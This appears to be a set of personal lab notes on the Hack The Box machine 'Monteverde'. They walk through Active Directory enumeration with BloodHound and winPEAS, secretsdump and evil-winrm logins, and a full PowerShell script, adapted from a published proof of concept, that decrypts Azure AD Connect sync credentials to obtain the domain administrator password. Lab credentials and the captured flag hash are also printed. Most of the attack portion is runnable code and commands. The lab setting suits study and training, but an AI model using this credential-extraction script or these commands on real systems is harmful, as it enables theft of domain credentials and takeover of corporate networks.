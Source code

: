 
It's time for Bloodhound and Winpeas

Bloodhound
```
bloodhound-python -d MEGABANK.local -u mhope -p '4n0therD4y@n0th3r$' -ns 10.10.10.172 -c all
```

![[Pasted image 20240504002952.png]]

Started the Neo4j console and Run bloodhound


```
IWR -Uri http://10.10.16.20:8080//winpeas/winPEASx64.exe -OutFile winPEASx64.exe
```
![[Pasted image 20240504003704.png]]

Systeminfo
![[Pasted image 20240504013037.png]]

```
USERDOMAIN: MEGABANK
USERDNSDOMAIN: MEGABANK.LOCAL
```

![[Pasted image 20240504014452.png]]

If you recall that we have seen this account user name starting with AAD_ is used for actual sync service.
https://docs.microsoft.com/en-us/azure/active-directory/hybrid/concept-adsync-service-account

![[Pasted image 20240505041831.png]]

![[Pasted image 20240505041255.png]]


AD Sync 
![[Pasted image 20240505041505.png]]
So we see a Microsoft Azure AD Sync Folder 

We can enumerate the service instance using the Registry.
```
Get-Item -Path HKLM:\SYSTEM\CurrentControlSet\Services\ADSync
```
![[Pasted image 20240505041916.png]]


```
Get-ItemProperty -Path "C:\Program Files\Microsoft Azure AD Sync\Bin\miiserver.exe" | Format-list -Property * -Force
```
![[Pasted image 20240505043207.png]]

First i tried running this to know if it working cuz the tools we are going to use will extract the password dump from the AD as it's using DPAPI

```
secretsdump.py MEGABANK.LOCAL/mhope:'4n0therD4y@n0th3r$'@10.10.10.172 -use-vss
```
![[Pasted image 20240505042603.png]]

https://github.com/dirkjanm/adconnectdump
https://blog.xpnsec.com/azuread-connect-for-redteam/
If i recall it correct we have also used another tool written by this fella. (i.e. ldapdomain dump)

Let's try the tool
![[Pasted image 20240505044351.png]]

I don't know how to run the tool as it wants a file that we can decrypt using this tool.
```
/root/HackTheBox/Monterverde/adconnectdump/decrypt.py
```


```
sqlcmd -S MONTEVERDE -Q "use ADsync; select instance_id,keyset_id,entropy from mms_server_configuration"
```
![[Pasted image 20240505045617.png]]

```
instance_id: 1852B527-DD4F-4ECF-B541-EFCCBFF29E31
keyset_id: 1
entropy: 194EC2FC-F186-46CF-B44D-071EB61F49CD
```

Changes:
```
$keyset_id = 1
$instance_id = [GUID]"1852B527-DD4F-4ECF-B541-EFCCBFF29E31"
$entropy = [GUID]"194EC2FC-F186-46CF-B44D-071EB61F49CD"
```

Now will save the script adconnect.ps1
```
Function Get-ADConnectPassword{
Write-Host "AD Connect Sync Credential Extract POC (@_xpn_)`n"
$keyset_id = 1
$instance_id = [GUID]"1852B527-DD4F-4ECF-B541-EFCCBFF29E31"
$entropy = [GUID]"194EC2FC-F186-46CF-B44D-071EB61F49CD"
$client = new-object System.Data.SqlClient.SqlConnection -ArgumentList
"Server=MONTEVERDE;Database=ADSync;Trusted_Connection=true"
$client.Open()
$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT private_configuration_xml, encrypted_configuration FROM
mms_management_agent WHERE ma_type = 'AD'"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$config = $reader.GetString(0)
$crypted = $reader.GetString(1)
$reader.Close()
add-type -path 'C:\Program Files\Microsoft Azure AD Sync\Bin\mcrypt.dll'
$km = New-Object -TypeName
Microsoft.DirectoryServices.MetadirectoryServices.Cryptography.KeyManager
$km.LoadKeySet($entropy, $instance_id, $key_id)
$key = $null
$km.GetActiveCredentialKey([ref]$key)
$key2 = $null
$km.GetKey(1, [ref]$key2)
$decrypted = $null$key2.DecryptBase64ToString($crypted, [ref]$decrypted)
$domain = select-xml -Content $config -XPath "//parameter[@name='forest-login-domain']"
| select @{Name = 'Domain'; Expression = {$_.node.InnerXML}}
$username = select-xml -Content $config -XPath "//parameter[@name='forest-login-user']"
| select @{Name = 'Username'; Expression = {$_.node.InnerXML}}
$password = select-xml -Content $decrypted -XPath "//attribute" | select @{Name =
'Password'; Expression = {$_.node.InnerXML}}
Write-Host ("Domain: " + $domain.Domain)
Write-Host ("Username: " + $username.Username)
Write-Host ("Password: " + $password.Password)
}
```


```
Write-Host "AD Connect Sync Credential Extract POC (@_xpn_)`n"

$client = new-object System.Data.SqlClient.SqlConnection -ArgumentList "Data Source=(localdb)\.\ADSync;Initial Catalog=ADSync"
$client.Open()
$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT keyset_id, instance_id, entropy FROM mms_server_configuration"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$key_id = $reader.GetInt32(0)
$instance_id = $reader.GetGuid(1)
$entropy = $reader.GetGuid(2)
$reader.Close()

$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent WHERE ma_type = 'AD'"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$config = $reader.GetString(0)
$crypted = $reader.GetString(1)
$reader.Close()

add-type -path 'C:\Program Files\Microsoft Azure AD Sync\Bin\mcrypt.dll'
$km = New-Object -TypeName Microsoft.DirectoryServices.MetadirectoryServices.Cryptography.KeyManager
$km.LoadKeySet($entropy, $instance_id, $key_id)
$key = $null
$km.GetActiveCredentialKey([ref]$key)
$key2 = $null
$km.GetKey(1, [ref]$key2)
$decrypted = $null
$key2.DecryptBase64ToString($crypted, [ref]$decrypted)

$domain = select-xml -Content $config -XPath "//parameter[@name='forest-login-domain']" | select @{Name = 'Domain'; Expression = {$_.node.InnerXML}}
$username = select-xml -Content $config -XPath "//parameter[@name='forest-login-user']" | select @{Name = 'Username'; Expression = {$_.node.InnerXML}}
$password = select-xml -Content $decrypted -XPath "//attribute" | select @{Name = 'Password'; Expression = {$_.node.InnerText}}

Write-Host ("Domain: " + $domain.Domain)
Write-Host ("Username: " + $username.Username)
Write-Host ("Password: " + $password.Password)
```


Let's see the Private_configuration
```
sqlcmd -Q "Use ADSync; select private_configuration_xml FROM mms_management_Agent"
```
![[Pasted image 20240505154724.png]]

Will the in memory command
```
evil-winrm -u mhope -p '4n0therD4y@n0th3r$' -i 10.10.10.172 -s .
```
As we are getting the error yesterday so we need to replace some code as we are not able to the get the SQL connection.

![[Pasted image 20240505160023.png]]

![[Pasted image 20240505160411.png]]
We are getting the error on the 2nd line where the client is trying to open the connection.
Let's find another way to do that.


On googling it we found this
```
new-object system.data.sqlclient.sqlconnection
```
https://www.sqlshack.com/connecting-powershell-to-sql-server/

Before
```
-ArgumentList "Data Source=(localdb)\.\ADSync;Initial Catalog=ADSync"
```

After
```
Server=localhost;Integrated Security=true;Initial Catalog=ADSync
```
![[Pasted image 20240505160814.png]]

Now the code is running aka connection is established
![[Pasted image 20240505161134.png]]

Finally the scrip ran with a little tweak
```
Domain: MEGABANK.LOCAL
Username: administrator
Password: d0m@in4dminyeah!
```
![[Pasted image 20240505161711.png]]


```
evil-winrm -u administrator -p 'd0m@in4dminyeah!' -i 10.10.10.172
```
![[Pasted image 20240505162003.png]]

```
7f47e74ff14679b490d0a2898f4108bc
```